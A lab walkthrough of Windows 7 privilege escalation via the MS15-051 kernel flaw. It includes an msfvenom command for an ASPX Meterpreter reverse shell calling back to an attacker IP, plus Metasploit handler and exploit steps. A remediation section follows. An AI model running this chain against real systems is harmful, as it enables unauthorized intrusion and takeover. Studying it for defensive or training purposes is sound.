










# Windows Privilege Escalation: Exploiting Kernel Vulnerability MS15-051 for NT AUTHORITY\SYSTEM Access

**Target OS:** Windows7 32bit

**Architecture:** x86 

**Initial Access Level:** Low-privilege user

**Attack Type:** Kernel-based Privilege Escalation

**Environment:** Lab / Authorized Test Only

## 1. Information Gathering & Enumeration

The process began with a comprehensive scan of the target machine to identify open ports and services.

* **Tool used:** Nmap
* **Command:** `nmap -A -T4 -p- 192.168.243.129`
* **Result:** The scan revealed that the target is running **Windows 7 Ultimate SP1**. Key open services include **FTP (Port 21)** and **HTTP (Port 80)** running on **Microsoft IIS 7.5**.

---

## 2. Payload Generation (Initial Access)

Since the target is hosting an IIS web server, an ASPX payload was chosen to gain an initial foothold.

* **Tool used:** Msfvenom
* **Command:** `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.243.128 LPORT=4444 -f aspx > exploit.aspx`
* **Objective:** To create a malicious web shell that initiates a Meterpreter reverse connection.

---

## 3. Setting up the Multi-Handler

Before executing the payload on the target, a listener was configured within the Metasploit Framework to catch the incoming connection.

* **Steps:**
1. `use multi/handler`
2. `set payload windows/meterpreter/reverse_tcp`
3. `set LHOST eth0`
4. `run`

---

## 4. Gaining Initial Access & System Recon

Once the payload was triggered on the server, a Meterpreter session (Session 1) was established.

* **Actions:** Ran `sysinfo` and `shell` to confirm the environment.
* **Result:** The session was running under the context of the web server user (`w3wp.exe`) on a **Windows 7 (Build 7601)** architecture. This is a low-privilege account.

---

## 5. Identifying Vulnerabilities (Local Exploit Suggester)

To escalate privileges, the system was analyzed for missing security patches and kernel vulnerabilities.

* **Module used:** `post/multi/recon/local_exploit_suggester`
* **Result:** The tool identified several potential vulnerabilities, most notably **ms15_051_client_copy_image**.

---

## 6. Executing the Kernel Exploit

The identified kernel exploit was configured to target the active session.

* **Exploit:** `exploit/windows/local/ms15_051_client_copy_image`
* **Process:** The exploit reflectively injected a DLL into a spawned process and performed a process migration to ensure stability.

---

## 7. Final Result: NT AUTHORITY\SYSTEM

The exploit successfully bypassed Windows security controls, granting a new Meterpreter session with the highest possible privileges.

* **Command:** `getuid`
* **Output:** **Server username: NT AUTHORITY\SYSTEM**
* **Conclusion:** Full administrative control over the target machine was achieved.

---

## 8. Remediation & Mitigation Strategies

To prevent similar Privilege Escalation attacks, the following security measures should be implemented:

* **Patch Management:** The primary cause of this breach was an unpatched kernel vulnerability (**MS15-051**). Regularly updating Windows and installing security patches is the most effective defense.
* **Principle of Least Privilege (PoLP):** Ensure that web services like IIS (`w3wp.exe`) run under a dedicated service account with minimal permissions, preventing an attacker from easily migrating to more sensitive processes.
* **Endpoint Detection and Response (EDR):** Implement EDR solutions that can detect suspicious activities, such as **DLL injection** and **unauthorized process migration** (e.g., migrating into `notepad.exe`).
* **Disable Unnecessary Services:** Ports that are not required for business operations (such as FTP or Telnet) should be closed to reduce the attack surface.

---

## 9. Summary Table of the Attack

| Phase | Tool/Module | Purpose |
| --- | --- | --- |
| **Reconnaissance** | Nmap | Identify OS (Windows 7) and open ports (80, 21). |
| **Initial Access** | Msfvenom / ASPX | Create and upload a reverse shell payload. |
| **Enumeration** | Local Exploit Suggester | Scan for unpatched kernel vulnerabilities. |
| **Escalation** | MS15-051 Exploit | Exploit the kernel to gain **SYSTEM** level access. |
| **Persistence** | Migrate | Move the process to a stable system process (notepad.exe). |

---

# Author: Anka0X

## [LinkedIn:](https://www.linkedin.com/in/manka-sec/)
